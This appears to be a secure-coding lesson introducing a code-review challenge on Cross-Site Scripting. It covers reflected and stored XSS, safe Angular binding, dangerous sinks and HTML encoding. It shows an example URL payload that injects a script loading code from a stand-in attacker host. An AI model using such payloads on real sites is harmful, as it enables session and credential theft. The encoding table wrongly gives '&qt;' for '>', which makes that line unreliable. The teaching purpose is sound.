 JavaScript’s biggest foe is Cross-Site Scripting (abbreviated XSS). This type of attack occurs when a web page accepts input containing JavaScript from an untrusted source and renders it in the context of the page. It’s practically a form of code injection.

The target is the user identity. The server relies on authentication tokens and credentials to identify the user. The malicious script will extract this information from the browser and send it to a site the attacker controls (hence the name Cross-Site Scripting). The script makes it into the page via a specially crafted URL sent to the user (reflected XSS ) or by saving it into the site as an article or message (stored XSS).

Example URL with XSS payload:
    
    https://site.com/search.jsp?q='"/><script src="https://evil.bad/xss.js"></script>

#####Code Defenses Against Cross-Site Scripting

To prevent the attack the application must **neutralize the user input**. This means that the input will be inserted in the page without being rendered or executed. Most modern JavaScript frameworks such as **Angular** or **React** do this implicitly. 

In the Angular example below the `fullName` parameter is embeded in the link innerText, a safe context.

    <a class="nav-link"><span class="oi oi-account-logout"> Logout {{fullName}} </a>

However, sometimes you must extend the JavaScript framework by designing your own UI elements. When doing this you must keep in mind that the following page contexts are dangerous since they will execute input as JavaScript.

Dangerous HTML element attributes:

- innerHTML
- src
- onLoad, onClick, etc…

Dangerous functions:

- eval
- setTimeout
- setInterval

In the case of legacy web applications server side rendered code (JSP, PHP, ASPX) co-exists with modern pages and maintenance of the server side code may introduce new Cross-Site Scripting issues, if user input is not neutralized. In those cases HTML Encoding functions have to be called to turn hazardous HTML markup into safe strings.

`<` becomes `&lt;`

`>` becomes `&qt;`

`"` becomes `&quot;`

In this challenge you will take a look at a few samples to understand how to spot Cross-Site Scripting during code review. Select the code that prevents the vulnerability.

